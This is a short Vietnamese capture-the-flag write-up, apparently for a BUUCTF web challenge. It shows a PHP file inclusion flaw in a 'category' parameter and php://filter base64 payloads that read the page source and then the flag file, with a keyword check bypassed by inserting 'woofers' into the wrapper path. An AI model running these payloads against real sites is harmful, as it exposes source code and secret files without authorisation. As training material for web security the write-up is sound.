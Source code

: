 Mở đầu challenge, cho ta trang web có 2 link `woofers` và `meowers`.Mình thử nhấp vào 1 trong 2.Nhận thấy URL thay đổi `/index.php?category=woofers`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/760e8341-4d7e-44d6-9317-b5ea50c6556d)

Mình nghĩ bài này là RCE.Mình thử đọc file index bằng payload sau.

`php://filter/convert.base64-encode/resource=index`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4d638aa3-1a15-46d0-a7d0-e7365fb24352)

Kết quả trả về là 1 dãy base64.Sau khi decode.

```php
 <?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
```

Vậy thì input `Category` bắt buộc phải có `woofers`, `meowers`.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/d21adce0-8f88-42e2-b70c-8ad2a00fe5b1)

Nhận thấy load thành công file flag.

`php://filter/convert.base64-encode/woofers/resource=flag`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/656aaf2f-0d12-4307-bf6e-2f4021260184)

Sau đó chỉ cần decode là xong.
